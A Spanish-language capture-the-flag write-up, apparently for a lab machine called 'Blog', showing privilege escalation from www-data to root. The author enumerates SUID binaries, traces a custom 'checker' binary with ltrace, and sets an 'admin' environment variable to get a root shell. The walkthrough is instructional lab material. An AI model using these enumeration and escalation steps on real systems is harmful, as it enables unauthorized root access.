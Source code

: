 He usado el siguiente comando para ver binarios con SUID

````bash
$ find / -perm -4000 2>/dev/null
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
/usr/bin/newgidmap
/usr/bin/traceroute6.iputils
/usr/sbin/checker
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
....
````
vemos que hay un binario llamado cracker vamos a ejecutarlo a ver que nos da:
````bashe
usr/sbin/checker eadmin
/usr/sbin/checker admin
Not an Admin
````
vamos a ver que hace por atras el comando con el comando ltrace mismo, he usado antes strings pero no me quedaba muy claro
````bash
www-data@blog:/$ ltrace /usr/sbin/checker
ltrace /usr/sbin/checker
getenv("admin")                                  = nil
puts("Not an Admin"Not an Admin
)                             = 13
+++ exited (status 0) +++
````
Llama a getenv("admin")
Esto significa que el binario intenta leer una variable de entorno llamada admin.

El valor es nil
Eso indica que la variable no está definida en tu entorno actual.
Después llama a puts("Not an Admin")
Esto confirma que si no encuentra la variable admin, el programa muestra ese mensaje y termina.

Viendo eso he probado crear una variable de entorno para que en vez de nil, sea 1

export admin=1
````bash
www-data@blog:/$ export admin=1
export admin=1
````
y despues lo he ejecutado

````bash
www-data@blog:/$ /usr/sbin/checker
/usr/sbin/checker
root@blog:/# whoami
whoami
root
````
## Task 1 - Blog
